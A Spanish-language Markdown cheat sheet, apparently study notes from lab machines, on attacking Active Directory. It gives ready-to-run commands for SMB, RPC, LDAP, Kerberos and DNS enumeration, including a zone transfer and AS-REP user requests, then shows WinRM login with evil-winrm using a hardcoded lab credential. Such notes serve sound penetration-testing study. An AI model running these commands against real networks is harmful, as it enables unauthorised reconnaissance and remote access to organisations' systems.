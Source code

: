 # Técnicas de directorio activo

## Puertos importantes

- 53: DNS
- 88: Kerberos
- 445: SMB
- 135: Windows RPC
- 389: LDAP
- 5985: Administración remota de windows

## Enumeración

Tecnicas de enumeración de directorio activo

### SMB

Si tiene el puerto 445 lo primero es enumerar con **crackmapexec**, **smbmap**, **smbclient**,....

```bash
# Se averigua nombre de maquina y dominio.
crackmapexec smb 10.10.10.175

# Listar recursos compartidos
crackmapexec smb 10.10.10.175 --shares

# smbmap con session nula
smbmap -H 10.10.10.175 -u 'null'

# smbclient con session nula
smbclient -L 10.10.10.175 -N

```

Poner el dominio en /etc/host.

Si se tiene una credencial válida podemos comprobar el usuario.

```bash
# Si pone pwned podríamos acceder con PSEXEC
crackmapexec smb 10.10.10.175 -u 'fsmit' -p 'Thestrokes23'

```

### RPC

Si tiene el puerto 135 podemos enumerar con **rpcclient**.

```bash
# rpcclient con sesion nula
rpcclient -U "" 10.10.10.174 -N

# Enumerar usuarios del dominio:
rcpclient $> enumdomusers

```

### LDAP

Si tiene el puerto 389 podemos enumerar con **ldapsearch**.

```bash
# ldapseacrh -x es simple autentication. traemos los namingcontext
ldapsearch -x -h  10.10.10.174 -N -s base namingcontexts

# ldapseacrh -x es simple autentication. Enumeramos el contexto
ldapsearch -x -h  10.10.10.174 -N -b 'DC=EGOTISTICAL-BANK, DC=LOCAL'
```

### KERBEROS

Si se consiguen usuarios y está el servicio de Kerberos abierto, puerto 88, podemos enumerar con kerbrute y GetNPUsers.

```bash
# kerbrute. Enumera usuarios válidos a partir de un listado
./kerbrute userenum -d EGOTISTICAL-BANK.LOCAL --dc 10.10.10.174 users.txt

# Lo mismo con Impacket
impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/ -no-pass -usersfile users.txt
```

### DNS

Si está abierto el puerto 53 podemos intentar un ataque de transferencia de dominio con dig.

```bash
# dig. Enumera los nameservers
dig @10.10.10.174 EGOTISTICAL-BANK.LOCAL ns

# dig. Enumera los servidores de correo
dig @10.10.10.174 EGOTISTICAL-BANK.LOCAL mx

# dig. Domain Zone Transfer Attack
dig @10.10.10.174 EGOTISTICAL-BANK.LOCAL axfr


```

## Administración remota, WINRM

Si está abierto el servicio de administración remota, puerto 5985, podemos atacar el servicio winrm con crackmapexec.

```bash
# Si pone pwned podríamos acceder con evil-winrm
crackmapexec winrm 10.10.10.175 -u 'fsmit' -p 'Thestrokes23'

# Acceso a consola por 
evil-winrm -i 10.10.10.175 -u 'fsmit' -p 'Thestrokes23'
```
## Explotación

```bash
# Acceso a consola evil-winrm. Credenciales válidas y servicio de administración remota  
evil-winrm -i 10.10.10.175 -u 'fsmit' -p 'Thestrokes23'
```